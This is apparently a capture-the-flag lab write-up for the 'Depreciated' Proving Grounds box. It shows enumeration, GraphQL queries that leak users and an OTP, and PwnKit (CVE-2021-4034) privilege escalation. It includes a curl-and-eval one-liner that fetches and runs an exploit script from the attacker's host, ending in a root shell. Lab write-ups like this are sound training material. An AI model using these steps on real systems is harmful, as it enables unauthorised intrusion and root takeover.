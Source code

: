 ```yaml
---
title: Proving Grounds - Depreciated
date: 2022-11-08
author: Marius
tags: [ctf, 'proving grounds', 'pg']
---
```

Depreciated is found in various OSCP prepare lists and in NetSecFocus Trophy list. Room is rated as intermediate, but is community rated this room as hard.

### Enumeration

```bash
└─$ rustscan -a 192.168.209.170 -- -sC -sV | tee nmap
PORT     STATE SERVICE REASON  VERSION
22/tcp   open  ssh     syn-ack OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Under Maintainence
5132/tcp open  unknown syn-ack
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, NULL: 
|     Enter Username:
|   GenericLines, GetRequest, HTTPOptions, RTSPRequest: 
|     Enter Username: Enter OTP: Incorrect username or password
|   Help: 
|     Enter Username: Enter OTP:
|   RPCCheck: 
|     Enter Username: Traceback (most recent call last):
|     File "/opt/depreciated/messaging/messages.py", line 100, in <module>
|     main()
|     File "/opt/depreciated/messaging/messages.py", line 82, in main
|     username = input("Enter Username: ")
|     File "/usr/lib/python3.8/codecs.py", line 322, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0x80 in position 0: invalid start byte
|   SSLSessionReq: 
|     Enter Username: Traceback (most recent call last):
|     File "/opt/depreciated/messaging/messages.py", line 100, in <module>
|     main()
|     File "/opt/depreciated/messaging/messages.py", line 82, in main
|     username = input("Enter Username: ")
|     File "/usr/lib/python3.8/codecs.py", line 322, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|     UnicodeDecodeError: 'utf-8' codec can't decode byte 0xd7 in position 13: invalid continuation byte
|   TerminalServerCookie: 
|     Enter Username: Traceback (most recent call last):
|     File "/opt/depreciated/messaging/messages.py", line 100, in <module>
|     main()
|     File "/opt/depreciated/messaging/messages.py", line 82, in main
|     username = input("Enter Username: ")
|     File "/usr/lib/python3.8/codecs.py", line 322, in decode
|     (result, consumed) = self._buffer_decode(data, self.errors, final)
|_    UnicodeDecodeError: 'utf-8' codec can't decode byte 0xe0 in position 5: invalid continuation byte
8433/tcp open  http    syn-ack Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
| http-methods: 
|_  Supported Methods: HEAD GET OPTIONS
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-
```

Started with web server. Running feroxbuster revealed no hidden directories. Homepage suggests to use port 5132 CLI which I have attempted to make connection to.

```
└─$ nc -nv 192.168.209.170 5132
(UNKNOWN) [192.168.209.170] 5132 (?) open
Enter Username: admin
Enter OTP: admin
Incorrect username or password
```
Attempted generic password/username combinations without any luck, but inspecting HTML of the webpage I did find some interesting information.

![alt text](/assets/img/depreciated/html-source.png)

I moved my investigation to the new directory http://192.168.209.170:8433/graphql

With query found in the hyperlink I have experimented a bit with trying out different queries and noticed that syntax help is enabled. By entering letters within brackets I got autocomplete suggestions and one of them was {listusers}

![alt text](/assets/img/depreciated/graphiql.png)

We now only need OTP to login to port 5132 CLI.  Playing around with GraphiQl I got autocomplete suggestion for getOPT function to request hopefully generate OTP. With syntax help I was able to construct a query.

```
{getOTP(username:"peter")}
```

![alt text](/assets/img/depreciated/graphiql2.png)

With these credentials I was able to login to the CLI and read peter's messages

```
└─$ nc -nv 192.168.209.170 5132
(UNKNOWN) [192.168.209.170] 5132 (?) open
Enter Username: peter
Enter OTP: ysvdzoSdDjcY1gYo
$ whoami
$ ?

list    list messages
create  create new message
exit    exit the messaging system
read    read the message with given id
update  update the message with given id
help    Show this help
                    
$ list
#2345		Improve the ticketing CLI syst
#1893		Staging keeps on crashing beca
#2347		[critical] The ticketing websi
#1277		Update the MySQL version, it's
#234		Hey, Please change your passwo
#0		Hey, Seriously this is getting
$ read 0
Not authorized to read
$ read 234
Message No: #234

Hey, Please change your password ASAP. You know the password policy, using weak password isn't allowed. And peter@safe is very weak, use https://password.kaspersky.com/ to check the strength of the password.

Attachment: none
$ read 1277
Not authorized to read
$ read 2347 
Not authorized to read
$ read 1893
Not authorized to read
$ read 2345
Not authorized to read
```

Peter:peter@safe 

Looks like peter ignored this message, because I was able to login via SSH with these credentials.

### Privilege Escalation

Once logged on I did some basic enumeration without interesting results so I fired up linpeas.

```
└─$ scp linpeas.sh peter@192.168.209.170:/tmp
```

CVE Check suggested that machine is vulnerable to [CVE-2021-4034](https://github.com/berdav/CVE-2021-4034).

On my machine I have cloned the repository and changed directory into the folder.

```
└─$ git clone https://github.com/berdav/CVE-2021-4034
└─$ cd CVE-2021-4034
```

On attacking machine I used onliner.

```
peter@depreciated:/tmp$ eval "$(curl -s http://192.168.49.209:4444/cve-2021-4034.sh)"
cc -Wall --shared -fPIC -o pwnkit.so pwnkit.c
cc -Wall    cve-2021-4034.c   -o cve-2021-4034
echo "module UTF-8// PWNKIT// pwnkit 1" > gconv-modules
mkdir -p GCONV_PATH=.
cp -f /usr/bin/true GCONV_PATH=./pwnkit.so:.
# whoami
root
# cd /root
# ls 
proof.txt  snap
```

Thats it. GG.

